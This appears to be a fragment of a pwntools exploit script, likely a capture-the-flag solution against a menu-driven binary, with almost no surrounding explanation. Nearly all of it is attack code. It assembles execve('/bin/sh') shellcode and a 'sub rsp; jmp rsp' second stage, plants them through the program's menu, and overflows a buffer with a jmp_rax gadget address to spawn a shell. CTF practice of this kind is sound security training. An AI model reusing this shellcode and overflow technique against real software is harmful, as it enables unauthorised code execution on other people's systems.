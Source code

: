 ```py
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''

# b *vuln+62
b *0x000000000040140e
c
'''.format(**locals())

p = init()

# ==================== EXPLOIT ====================

def exploit():

    jmp_rax = 0x000000000040116c


    sc = asm("""
    sc:
            nop
            nop
            nop
            xor rdi, rdi
            lea rdi, [rip+bin_sh]
            nop
            nop
            nop
            nop
            xor rsi, rsi
            xor rdx, rdx
            mov eax, 0x3b
            syscall
            nop
            nop
            nop

    bin_sh:
            .ascii "/bin/sh"
            .byte 0
    """, arch='amd64')

    sc2 = asm ("""
            nop
            nop
            sub rsp, 0x2e4
            nop
            jmp rsp
             """)


    sla(b'\n', b'1')
    sla(b'\n', b'A'*8)

    sla(b'\n', b'2')
    sla(b'\n', b'0')
    sla(b'\n', sc)

    sla(b'\n', b'3')
    offset = 20
    payload = sc2.ljust(offset, b'\x90') + p64(jmp_rax)
    sla(b'\n', payload)

```